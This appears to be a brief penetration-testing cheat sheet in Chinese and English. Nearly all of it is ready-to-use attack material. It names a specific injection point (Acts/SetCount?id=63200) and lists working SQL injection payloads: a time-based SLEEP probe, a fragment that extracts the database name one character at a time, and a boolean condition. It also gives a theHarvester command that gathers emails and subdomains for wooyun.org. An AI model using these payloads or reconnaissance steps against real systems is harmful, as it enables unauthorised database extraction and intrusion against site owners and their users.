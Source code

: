 ## sql注入
### 注入点    Acts/SetCount?id=63200
```sql
' AND (SELECT * FROM (SELECT(SLEEP(5)))RING) and 'RING'='RING
```

```sql
(SELECT * FROM (SELECT(SLEEP((ASCII(MID(LOWER(DATABASE())," + str(i) + ",1))=" + str(ord(_str)) + ")*5)))RING)
```

```sql
' and if((1=2),1,(select 1 union select 2))#
```

## 信息收集
### The harvester   搜索引擎查找邮箱及子域名
```shell
./theHarvester.py -d wooyun.org -l 500 -b baidu -v 
```
    theharvester -d 域名|公司名 -b 搜索来源（google，bing，pgp，linkedin等） 
